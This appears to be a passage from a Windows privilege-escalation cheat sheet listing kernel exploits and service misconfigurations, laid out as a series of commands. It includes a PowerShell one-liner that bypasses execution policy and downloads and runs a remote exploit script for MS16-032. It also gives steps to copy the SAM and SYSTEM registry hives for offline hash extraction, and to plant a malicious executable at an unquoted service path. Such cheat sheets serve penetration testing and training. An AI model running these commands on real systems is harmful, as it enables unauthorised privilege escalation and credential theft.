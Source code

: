 ## Kernel Exploits

### Check Windows Version and Patch Level
```powershell
systeminfo
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
wmic qfe get Caption,Description,HotFixID,InstalledOn
```

### Common Windows Kernel Exploits

1. **MS16-032** (Secondary Logon Handle) - Windows 7/8/10 & Server 2008/2012
   ```powershell
   powershell -ep bypass -c "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/privesc/Invoke-MS16032.ps1'); Invoke-MS16032"
   ```

2. **CVE-2021-36934** (HiveNightmare/SeriousSAM) - Windows 10/11
   ```powershell
   # Check if vulnerable
   icacls C:\Windows\System32\config\SAM

   # Exploit if readable
   copy C:\Windows\System32\config\SAM C:\temp\
   copy C:\Windows\System32\config\SYSTEM C:\temp\
   # Then extract hashes offline
   ```

3. **PrintNightmare (CVE-2021-34527)** - Windows Print Spooler
   ```powershell
   # Check if Print Spooler is running
   Get-Service Spooler

   # Exploit using available POCs from GitHub
   ```

4. **EternalBlue (MS17-010)** - SMB vulnerability for Windows 7 and Server 2008 R2
   ```powershell
   # Check if vulnerable
   Test-Path "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\hotfix\KB4013389"
   ```

## Service Misconfigurations

### Unquoted Service Paths
```powershell
# Find services with unquoted paths
wmic service get name,displayname,pathname,startmode | findstr /i "auto" | findstr /i /v "c:\windows\\" | findstr /i /v """

# Check specific service
sc qc [servicename]

# Create malicious executable in path
copy C:\Windows\System32\cmd.exe "C:\Program.exe"
```
